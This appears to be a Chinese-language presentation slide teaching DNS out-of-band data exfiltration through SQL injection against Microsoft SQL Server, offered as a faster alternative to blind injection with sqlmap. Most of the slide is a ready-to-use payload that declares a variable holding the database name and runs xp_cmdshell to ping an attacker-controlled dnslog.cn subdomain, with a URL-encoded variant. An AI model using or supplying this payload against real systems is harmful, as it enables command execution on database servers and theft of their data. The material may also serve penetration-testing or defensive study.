

MSSql注入数据外带
MSSql注入数据外带
当注入点仅存在盲注时，使用sqlmap出数据太慢，使用数据外带加速出数据。
DNS数据外带
Payload构造原理：
declare @a varchar(8000);    	#声明一个变量a，字符类型为varchar(8000)
set @a=db_name(); 		#指定变量绑定一个mmsql函数
exec('master..xp_cmdshell "ping.exe ' +@a+ '.gddxi9.dnslog.cn -n 1"')--
exec('master..xp_cmdshell "ping.exe ' %2b@a%2b '.gddxi9.dnslog.cn -n 1"')--
+==> %2b			#引用变量拼接到xp_cmdshell执行语句中带出数据